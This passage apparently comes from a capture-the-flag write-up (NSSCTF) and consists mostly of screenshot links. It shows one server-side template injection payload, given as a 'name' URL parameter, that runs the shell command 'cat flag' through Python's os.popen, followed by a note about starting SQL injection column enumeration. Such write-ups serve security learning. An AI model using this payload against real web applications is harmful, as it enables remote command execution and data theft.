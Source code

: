 ![image-20250817110959472](./NSSCTF-6.assets/image-20250817110959472.png)

```
?name={{config.__class__.__init__.__globals__['os'].popen('cat flag').read()}}
```

![image-20250817111036404](./NSSCTF-6.assets/image-20250817111036404.png)



先判断字符型，查找列数

![image-20250817114238757](./NSSCTF-6.assets/image-20250817114238757.png)
